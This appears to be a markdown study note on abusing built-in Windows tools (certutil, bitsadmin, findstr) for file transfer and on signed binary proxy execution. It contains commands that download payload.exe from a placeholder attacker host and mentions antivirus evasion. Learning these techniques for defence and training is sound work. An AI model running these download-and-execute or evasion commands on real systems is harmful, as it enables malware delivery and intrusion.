 # File Operations
techniques that aim to be used in file operation, including download, upload and encoding.
## Certutil
Certutil is an utility for handling certification services. It is used to dump and display Certification Authority (CA) configuration information and other CA components. However, the technique known as the **Ingress tool transfer**, allows us to transfer and encode files.
We for example could use it to download a file from an attacker's web server and store it in a temporary folder.
```cmd
certutil -URLcache -split -f http://ATTACKER_IP/payload.exe payload.exe
```
note that we use `-urlcache` to enable the URL option to use in the command `-split -f` to split and force fetching files from the provided URL.

We could also use it as an encoding tool where we can base64 encode files and decode the content of files.
```cmd
certutil -encode payload.exe Encoded-payload.txt
```

## BITSAdmin
The `bitsadmin` tool is a system administrator utility that can be used to create, download or upload **Background Intelligent Transfer Service** (BITS) jobs and check their progress. BITS is a low bandwidth and asynchronous method to download and upload files from HTTP webservers and SMB servers.
We can abuse the BITS jobs to download and execute a payload in a compromised machine.
```powershell
bitsadmin.exe /transfer /download /priority Foreground http://ATACKER_IP/payload.exe c:\Users\myuser\Desktop\payload.exe
```
`/transfer` to use the transfer option.
`/download` to specify a transfer using the download type.
`/priority` we are setting the priority of the job to be running in the foreground.
Note that we need to specify the complete path of the output for it to work.

## FindStr
Findstr is a built-in tools used to find text and string patterns in files. It helps users search within files or parsed output. However, we can use it to download remote files from SMB shared folders within the network as follows:
```powershell
findstr /V dummystring \\MACHINENAME\SHAREFOLDER\test.exe > c:\Windows\Temp\test.exe
```
`\V` to print out the lines that don't contain the string provided.
`dummystring` the text to be searched for, in this case, we provide a string that must not be found in a file
`> c:\...` redirect output to a file on the machine.

# File Execution
The typical case of executing a binary involves various known methods such as using the command line `cmd.exe` or from the desktop. However, other ways exist to achieve payload execution by abusing other system binaries, of which one of the reasons is to hide or harden the payload's process. Thus the technique **Signed Binary Proxy Execution** or **Indirect Command Execution**, where we leverage other system tools to spawn payloads. Also may aid in [[AV Evasion Shellcode|evasion]].
